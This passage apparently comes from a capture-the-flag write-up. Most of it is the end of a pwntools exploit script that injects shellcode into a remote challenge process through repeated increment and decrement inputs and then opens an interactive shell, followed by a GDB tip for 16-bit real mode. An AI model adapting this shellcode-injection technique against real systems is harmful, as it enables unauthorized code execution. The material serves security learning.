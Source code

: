```python
    p.send(p8(offset+ord('0')))
    p.send(UP)


def sub_one(offset):
    p.send(p8(offset+ord('0')))
    p.send(DOWN)


SHELLCODE_OFFSET = 0x5
offset = 0

for x in range(len(SHELLCODE)):
    if PREV[x] > SHELLCODE[x]:
        for i in range(PREV[x] - SHELLCODE[x]):
            sub_one(SHELLCODE_OFFSET+x)
            if i % 4 == 0:
                sleep(0.3)
    else:
        for i in range(-PREV[x] + SHELLCODE[x]):
            add_one(SHELLCODE_OFFSET+x)
            if i % 4 == 0:
                sleep(0.3)

for i in range(0xfe-0xd7):
    sub_one(0x31-4)
    if i % 4 == 0:
        sleep(0.3)

pause()

p.send(b"\x1b")

print(p.recv(1000))
print(p.recv(1000))

pause()

p.interactive()
```
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/60883b02-33f0-491f-9605-048816138831)

P/s:
This trick may help you when you want to debug 16-bit real mode with GDB:
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/d1d9bc4e-e288-4e4d-a6d0-c0135ee7fd45)

Link: https://gist.github.com/MatanShahar/1441433e19637cf1bb46b1aa38a90815?permalink_comment_id=3315921#gistcomment-3315921

